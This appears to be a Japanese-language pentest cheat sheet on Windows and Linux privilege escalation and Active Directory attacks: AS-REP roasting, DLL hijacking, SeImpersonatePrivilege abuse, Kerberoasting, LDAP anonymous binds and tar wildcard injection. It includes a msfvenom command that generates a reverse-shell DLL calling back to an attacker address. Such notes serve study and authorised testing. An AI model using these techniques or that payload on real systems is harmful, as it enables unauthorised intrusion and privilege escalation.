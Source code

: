 # Windows

## AS-REP Roasting
**AS-REP roastingは、Kerberos pre authenticationなしでユーザからパスワードハッシュを取得できる攻撃**のことを指す。
Kerberosへの認証において、まずはAS-REQを送信するというステップがある。この要求に基づいてDCは認証成功を判断する。  
**認証に成功すると、DCはセッションキーとTGTを含むAS-REPを返す。**  
ユーザ名のパスワードとハッシュから生成したハッシュを使って暗号化されたタイムスタンプをAS-REQにのせてユーザの認証をDCに頼むという流れを、**Kerberos Pre Authentication**と呼ぶ。この機能が有効だとAS-REP roastingはできない。  
このKerberos pre authenticationがDC側で有効になっていない場合、攻撃者は任意のADユーザに代わってDCにAS-REQを返すよう要求ができる。

### 攻撃で使用できるツール
- Rubeus
- impacket-GetNPUsers
### 攻撃の条件
- DCのIPアドレスが分かっている
- AS-REQを送る際になりすますユーザの属するドメイン名が分かっている
- AS-REQを送る際になりすますドメインの、有効なユーザ名が分かっている
- Kerberosのポート(88番)と通信できる
- DC側の設定で、ターゲットユーザアカウントのKerberos pre authenticationが有効になっていない


## DLL Hijacking
.exeバイナリやそのバイナリに紐づいたサービスは、起動時にDLLを探す。  
**これらのDLLが存在しないかDLLが絶対パスを使わずに呼び出されるといったケースで、バイナリやサービスに悪意のあるDLLファイルを強制的にロード&実行させて権限昇格することができる。**  
  
msfvenom等でバイナリを生成し、DLLやバイナリを生成してリバースシェルを実行すると権限昇格に成功するなどできる。  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.293.22 LPORT=4444 -f dll -o hoge.dll
```

## Abuse Windows SeImpersonatePrivilege
### With RogueWinRM
Windows 10 1809以降に存在する脆弱性を突いた、権限昇格の脆弱性を狙った攻撃。  
Windows Server 2019, 2016でも動くが、5985ポートをリッスンポートに使うのでWinRMがWindows端末上で動いていると機能しない。
[脆弱性みっけた人の良記事](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)  
  
ただしRogueWinRMは、ターゲット上でWinRMが動いているかいないかによって攻撃の成否が決まってしまう。  
なのでそのような場合はprintspoofer.exeで代替できることがある。

### 攻撃で使用できるツール
- RogueWinRM
- PrintSpoofer

### 攻撃の条件
- 端末のバージョンがWindows 10 1809以降、もしくはWindows Server 2019, 2016であること
- 端末上で5985ポートを使用していないこと
- BITSがWindows上で起動していないこと(バックグラウンドでWindows Updateが走ってるときとかはBITSがうごく)
- 実行ユーザがSeImpersonatePrivilege権限を持っていること

## Kerberoasting
Kerberoastingは、**SPNがコンピュータアカウントではなくユーザアカウントに紐づけられているサービスのサービスチケットを要求する攻撃。** 

### 攻撃で使用できるツール
- impacket-GetUserSPNs
- Rubeus

### 攻撃の条件
- ドメイン内で有効なユーザ名とパスワードの資格情報を1つ以上持っていること。
- DCと通信ができること。
- ターゲットサービスアカウント所属するドメイン名が分かっていること。

## LDAP anonymous binds
この手法によりドメイン環境で認証されていない攻撃者が、ドメインからユーザー、グループ、コンピュータ、ユーザアカウント属性、ドメインパスワードポリシーといったリストを取得できる。  
  
### 攻撃で使用できるツール
- ldapsearch
- ad-ldapdomaindump.py
- windapsearch.py

### 攻撃の条件
- ターゲットDCがWindows Server 2003以前であること(?)2003からは認証されたドメインユーザのみがアクセスできるようになっている。
- もしくは、管理者が意図的に利便性のためにLDAP Anonymous bindsの設定を有効にしている場合はこの手法を使える。

============-
# Linux

## ワイルドカードインジェクション  
### 概要
tarコマンドの第三引数に*が指定されている場合、そこに--checkpointを入れて任意のコマンド実行ができる。  
tarがバックアップ用のスケジュールタスクだったり、root権限で実行されるようなタスクであった場合、root権限で実行して権限昇格できたりする。  
tarが圧縮するファイルのフォルダのとこに書き込み権限が無いといけない。
### 参考情報
[ワイルドカードインジェクション1](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)  
[ワイルドカードワイルインジェクション2](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)  

### 攻撃の条件
- tarの引数に*が末尾に指定されている。
- root権限(スケジュールタスクでもいい)でtarが実行できる。
- tarが*で圧縮ファイル群を指定する時、この圧縮ファイルたちのフォルダにファイルを作れる必要がある。